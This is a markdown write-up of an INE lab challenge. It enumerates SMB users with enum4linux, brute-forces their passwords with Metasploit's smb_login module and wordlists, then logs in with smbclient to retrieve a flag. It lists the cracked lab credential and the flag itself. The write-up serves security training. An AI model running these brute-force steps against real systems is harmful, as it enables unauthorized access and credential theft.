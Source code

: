 # SMB Login Brute Force with Metasploit

## Challenge Title
Brute Force SMB Credentials and Extract a Flag

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Use enumeration and brute-force attacks to obtain SMB credentials. Then, access the authenticated share to extract a hidden flag.

---

## Tools Used

- `enum4linux` – for user enumeration
- `Metasploit` – for brute force with SMB login module
- `smbclient` – for accessing SMB shares

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Enumerate Users with `enum4linux`

We start by using `enum4linux` to enumerate valid users on the SMB service.

```bash
enum4linux -a target.ine.local
```
![Step 1](./7.png)

The tool successfully identified local users:
- `josh`
- `bob`
- `nancy`
- `alice`
![Step 1](./8.png)

### 🔹 Step : Launch Metasploit and Load SMB Login Module

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
```
![Step 2](./1.png)

### 🔹 Step 3: Create a User Wordlist

Created `users.txt` with common usernames:
```bash
josh
bob
nancy
alice
```
![Step 3](./2.png)

### 🔹 Step 4: Set Wordlists in Metasploit
```bash
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
run
```
![Step 4](./3.png)

### 🔹 Step 5: Valid Credentials Found
```yaml
josh : purple
```
![Step 5](./4.png)

### 🔹 Step 6: Access SMB Share Using `smbclient`
```bash
smbclient //target.ine.local/josh -U josh
```
Password: purple
```bash
ls
get flag2.txt
```
![Step 6](./5.png)

### 🔹 Step 7: View the Retrieved Flag
```bash
cat flag2.txt
```
Flag:
```wasm
FLAG2{a744a6f69c0747398f2648e10f32b8d4}
```
Also contains a hint for the next step:
Psst! I heard there is an FTP service running. Find it and check the banner.
![Step 7](./6.png)

## Conclusion
This challenge demonstrates how password spraying and brute-force attacks using Metasploit can help identify weak credentials on SMB services — which in real environments can lead to full network compromise.

## Files Included
- `users.txt`: Wordlist used for usernames
- `unix_passwords.txt`: Wordlist used for passwords
- Screenshots: 1.png → 6.png (steps of the challenge)
